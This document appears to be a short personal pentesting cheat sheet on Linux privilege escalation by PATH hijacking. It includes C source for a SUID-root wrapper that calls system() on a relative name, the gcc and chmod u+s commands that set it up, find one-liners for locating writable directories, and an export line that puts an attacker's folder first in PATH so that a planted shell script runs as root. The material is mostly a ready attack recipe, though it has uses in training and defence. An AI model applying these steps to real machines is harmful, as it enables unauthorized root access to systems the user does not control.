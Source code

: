 #LinuxPrivEsc 
If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script

1.  What folders are located under $PATH
2.  Does your current user have write privileges for any of these folders?
3.  Can you modify $PATH?
4.  Is there a script/application you can start that will be affected by this vulnerability

```C
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("script to run")
}
```
`gcc executable.c -o executable -W`
Executable assigned the SUID bit by root. 
`chmod u+s executable`

If any writable folder is listed under PATH we could create a script that spawns a shell in that directory and have our executable run it. As the SUID bit is set, this script will run with root privilege

*Simple search for writable folders*
`find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u`
*Alternative search*
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`

If PATH can be modified, export your writable folder at the beginnig
`export PATH=/PATH_TO_FOLDER:$PATH`
